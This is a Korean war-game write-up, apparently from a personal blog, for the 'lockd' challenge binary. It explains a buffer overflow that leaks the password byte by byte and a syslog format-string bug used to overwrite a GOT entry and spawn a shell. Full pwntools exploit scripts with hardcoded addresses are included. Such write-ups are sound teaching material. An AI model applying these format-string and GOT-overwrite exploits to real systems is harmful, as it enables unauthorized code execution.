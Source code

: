 ```yaml
---
layout: post
title: "lockd"
comments : true
category : War Game
---
```


# 문제
***

lockd 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

file 명령어 결과는 다음과 같다.
```
lockd: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=784b63a128e6fe76512ae058e30be767450c8e7a, stripped
```

바이너리 코드

__sub_8048A7D()__
```
int sub_8048A7D()
{
...
  v7 = __readgsdword(0x14u);
  stream = fopen("password", "rb");
  fread(&ptr, 1u, 0x10u, stream);
  fclose(stream);
  dword_804A0A4 = *(_DWORD *)&ptr;
  dword_804A0A8 = v4;
  dword_804A0AC = v5;
  dword_804A0B0 = v6;
  printf("Input master key > ");
  read(0, &buf, 0x28u);
  return memcmp(&ptr, &buf, 0x10u);
}
```

__sub_8048A7D()__의 read 함수에서 buffer overflow 취약점이 존재한다. 그리고 bof를 통해서 ptr 영역에 overwrite함으로써 password를 알 수 있다. 방법은 다음과 같다.

(X는 내가 넣은 특정한 문자를 의미하고 ?는 0x00에서 0xff 사이의 임의의 값을 의미한다. 그리고 Y는 fread를 통해 ptr에 읽어온 password의 값이다.)

1. read함수를 통해서 buf의 앞 16바이트에 XXXX XXXX XXXX XXX?를 쓰고 bof를 통해서 ptr을 XXXX XXXX XXXX XXXY와 같이 구성한다.
?에 0x00부터 0xff까지 넣어보면서 memcmp의 return 값이 0일 때를 찾는다. 이를 통해서 Y 값을 알 수 있다.
2. 동일한 방식으로 buf의 앞 16바이트에 XXXX XXXX XXXX XX?Y를 쓰고 ptr을 XXXX XXXX XXXX XXYY와 같이 구성하면 뒤에서 두 번째에 있는 Y값을 알아낼 수 있다.
3. 이 방식을 반복함으로써 password를 알 수 있다.

__sub_804897A()__
```
signed int sub_804897A()
{
  printf("Input master key > ");
  read(0, fmt, 0x14u);
  if ( memcmp(&dword_804A0A4, fmt, 0x10u) )
    return -1;
  sprintf(fmt, "./lock UNLOCK %d %d", dword_804A4C0, dword_804A0A0);
  system(fmt);
  printf("Your name > ");
  read(0, &unk_804A2C0, 0x190u);
  sprintf(fmt, "UNLOCK %d-%d by %s", dword_804A4C0, dword_804A0A0, &unk_804A2C0);
  syslog(0xD, fmt);
  return 0;
}
```

```void syslog(int priority, const char *format, ...);``` 
syslog 함수는 두 번쨰 인자로 const char *format을 받는다. 그런데 __sub_804897A()__, __sub_8048877()__ 에서 syslog 함수를 ```syslog(0xD, fmt);``` 와 같이 사용하기 때문에 fsb 취약점이 존재한다. 

## exploit 방법
1.  __sub_8048A7D()__에 존재하는 취약점을 이용해서 password를 알아낸다. (이를 통해서 __sub_804897A()__의 if문을 통과할 수 있다.)
2. fsb를 이용해서 __sub_804897A()__의 sfp에 sprintf의 got값을 넣는다. (앞의 read에서 fmt에 20바이트를 넣기 때문에 password 뒤에 ""\x0a"*2 + "sh" (뒤에 null 존재)을 넣고 바로  system을 호출하면 쉘을 딸 수 있다. 그런데 sprintf에서 17바이트를 출력한 후에 \x00을 넣어버려서 ```system("sh")```가 호출되지 않는다. "\x0a"+"sh" 앞에 null이 들어가는 것을 막기 위해서 sprintf 대신 printf를 호출하게 하려고 한다.)
3. fsb를 이용해서 sprintf_got에 printf_plt 주소를 덮어쓴다.
4. fmt를 password + "\x0a" + "sh" + "\x00" 으로 구성하면 system(fmt)에서 쉘을 딸 수 있다.

# 풀이
***

__leak_pw.py__
```
#!/usr/bin/python

from pwn import *

file_path="/home/lockd/lockd"

def sd_key(p,key):
	p.recvuntil("floor > ")
        p.sendline("1")
        p.recvuntil("number > ")
        p.sendline("1")
        p.recvuntil("key > ")
        p.send(key)
	p.recv()
	p.close()

masterkey="A"*16
masterkey=list(masterkey)

for i in range(16):
	for j in range(0x100):
		dummy="A"*4
		key="A"*(15-i)
		masterkey[15-i]=p32(j)[0]

		try:
			p=process(file_path)
			sd_key(p,''.join(masterkey)+dummy+key)
		except:
			p.close()
		else:
			break

print ''.join(masterkey)
```

__exploit.py__
```
#!/usr/bin/python

from pwn import *

def sel_2(pay):
	p.recvuntil("> ")
	p.sendline("2")
	p.recvuntil("key > ")
	p.send(password+"\x0a"+"sh"+"\x00")
	p.recvuntil("name > ")
	p.send(pay)

password="c39f30e348c07297"

file_path="/home/lockd/lockd"
p=process(file_path)

p.recvuntil("floor > ")
p.sendline("1")
p.recvuntil("number > ")
p.sendline("1")
p.recvuntil("key > ")
p.send(password)

sprintf_got=0x804a03c
printf_plt=0x8048570

name="%"+str(sprintf_got-14)+"d"+"%9$n"
sel_2(name)

name2="%"+str(printf_plt-14)+"d"+"%21$n"
sel_2(name2)

p.recvuntil("> ")
p.sendline("2")
p.recvuntil("key > ")
p.send(password+"\x0a"+"sh"+"\x00")

p.interactive()
```

# 알게 된 것
***
1. gdb에서 디버깅 하다가 자식 프로세스 생기면 (여기서는 syslog에 의해서 생김) 동작이 멈춰버리니까 set follow-fork parent (child)를 꼭 해주자.

2. ```int printf ( const char * format, ... );```나 ```void syslog(int priority, const char *format, ...);``` 처럼 인자로 format 지정 문자열이 존재할 때 ```printf(fsb);```, ```syslog(13,fsb);```와 같이 구성하면 format string bug가 존재한다.
(format 지정 문자열 뒤에 인자가 없는 경우, or 서식 문자보다 뒤에 있는 인자의 수가 적은 )

3. ```void syslog(int priority, const char * format);```
- syslog 함수는 syslogd 데몬에게 메세지를 전송한다. (시스템에서 로그 메세지를 처리하기 위해서 제공하는 표준 인터페이스)
- syslogd 데몬은 받은 메세지를 /etc/syslog.conf에 설정된 규칙에 따라서 파일에 기록, 화면에 출력, 또는 다른 호스트에 있는 또다른 syslogd 데몬에게 포워딩한다.
- priority는 priority (메세지의 우선순위)와 facility (메세지를 발생시킨 프로그램의 종류 대한 flag)의 OR 연산을 통해 만들어짐

4. (password를 알아내는 방법과 같은) 다양한 방법을 생각 해보자???


